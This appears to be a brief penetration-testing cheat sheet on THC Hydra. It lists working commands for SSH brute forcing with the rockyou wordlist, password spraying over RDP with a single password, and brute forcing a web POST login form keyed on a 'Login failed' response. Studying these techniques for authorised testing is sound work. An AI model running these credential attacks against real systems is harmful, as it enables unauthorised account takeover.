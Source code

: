 https://github.com/vanhauser-thc/thc-hydra

```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://1.1.1.1
```

# Password Spraying
```
echo -e "daniel\njustin" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt
```
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://1.0.0.0
```

# POST Login Forms
We have to first check which will be the delimiters in order to know if the login has been completed succesfully. We first catch the request by burp and we determine the response codes. Now as we have determined that the server responses says "Login failed." when the login is not fulfilled we have this command as an example:

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 1.1.1.1 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```